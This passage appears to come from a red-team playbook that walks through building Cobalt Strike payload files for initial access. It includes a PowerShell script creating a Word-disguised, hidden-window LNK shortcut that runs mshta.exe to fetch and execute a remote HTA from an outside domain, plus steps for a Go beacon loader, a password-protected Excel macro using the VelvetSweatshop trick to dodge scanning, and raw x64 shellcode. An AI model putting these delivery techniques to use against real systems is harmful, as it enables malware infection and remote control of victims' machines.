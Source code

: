   ```bash
  env GOOS=windows GOARCH=amd64 go build -ldflags -H=windowsgui
  ```
  * Lately this hasn’t been working on Linux, everything builds fine but the you won’t get beacons. If you build the exe using go on a windows machine it should work.
* Change name of banana.exe to 21-https-bananaphone.exe and upload it to Cobalt Strike

### __22-https-lnk.docm__

* Host your 04-https-psh.hta payload on Cobalt Strike
* Update the domain in the following ps1 script and then run it to create the LNK file

  ```bash
  $obj = New-object -comobject wscript.shell
  $link = $obj.createshortcut("22-https.lnk")
  $link.windowstyle = "7"
  $link.targetpath = "cmd.exe"
  $link.iconlocation = "C:\Program Files (x86)\Microsoft Office\Office15\WINWORD.exe"
  $link.arguments = "/c mshta.exe https://cotilah.com:443/04-https-psh.hta"
  $link.save()
  ```
* Once the above PowerShell script is executed, an `.LNK` shortcut is created

### __23-dns-velvet-sweatshop.xlsm__

* Attacks
* Packages
* MS Office Macro

| Field | Option |
|----|----|
| Listener | DNS |

* Copy Macro and paste into Macro section of Excel document (Follow Cobalt Strike Instructions if Lost)
* Save as: `23-dns-velvet-sweatshop.xlsm`
* Apply Password Protection: `VelvetSweatshop`

### __24-dns-scarecrow.html__

* Make sure osslsigncode is installed (apt-get install osslsigncode)
* Generate a raw x64 bin file in Cobalt Strike
  1. Attacks
  2. Packages
  3. Windows Executable (S)

| Field | Option |
|----|----|
| Listener | DNS |
| Output | RAW |
| x64 | Checked |
